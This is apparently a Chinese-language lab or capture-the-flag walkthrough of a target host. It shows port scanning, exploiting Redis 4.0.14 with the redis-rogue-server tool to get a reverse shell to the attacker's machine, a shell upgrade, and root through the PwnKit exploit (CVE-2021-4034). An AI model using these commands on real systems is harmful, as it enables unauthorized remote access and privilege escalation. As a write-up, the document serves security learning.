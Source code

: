 ## 偵查
```bash
rustscan -a <target_ip> --ulimit 5000
```
```shell
[~] Automatically increasing ulimit value to 5000.
Open 192.168.234.176:22
Open 192.168.234.176:6379
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-28 06:30 EDT
Initiating Ping Scan at 06:30
Scanning 192.168.234.176 [4 ports]
Completed Ping Scan at 06:30, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 06:30
Completed Parallel DNS resolution of 1 host. at 06:30, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 06:30
Scanning 192.168.234.176 [2 ports]
Discovered open port 6379/tcp on 192.168.234.176
Discovered open port 22/tcp on 192.168.234.176
Completed SYN Stealth Scan at 06:30, 0.10s elapsed (2 total ports)
Nmap scan report for 192.168.234.176
Host is up, received reset ttl 61 (0.075s latency).
Scanned at 2025-08-28 06:30:55 EDT for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 61
6379/tcp open  redis   syn-ack ttl 61

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (128B)

```
## 分析
可以看到這台靶機開了 22/ssh 跟 6379/redis 兩個 port。  
我的想法是我會先看看 6379 的服務。
```shell
└─$ nmap -sV -sC -T4 192.168.234.176 -p 6379 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-28 06:33 EDT
Nmap scan report for 192.168.234.176
Host is up (0.075s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.14

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.68 seconds
```
version 4.0.14 , 有點問題  
可以去 google 看看有沒有什麼 exploit  
結果發現了 [Redis Rogue Server](https://github.com/n0b0dyCN/redis-rogue-server)  
試用看看  
```shell
git clone https://github.com/n0b0dyCN/redis-rogue-server.git
```
```python
python redis-rogue-server.py --rhost <target_ip> --lhost <local_vpn_ip> --lport 8888
```
他就會問你要互動式的 shell 還是 rev shell  
這邊選 rev shell 然後記得要 nc local 就有 rev shell 了
用以下指令獲得穩定 shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## 提權
接下來是提權的部分  
可以先用 LinPEAS 掃看看
發現有 PwnKit 可以用
```shell
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```
就用 PwnKit 看看
```shell
prudence@blackgate:/tmp$ chmod +x PwnKit
chmod +x PwnKit
prudence@blackgate:/tmp$ ./PwnKit
./PwnKit
root@blackgate:/tmp# 
```
GET ROOT !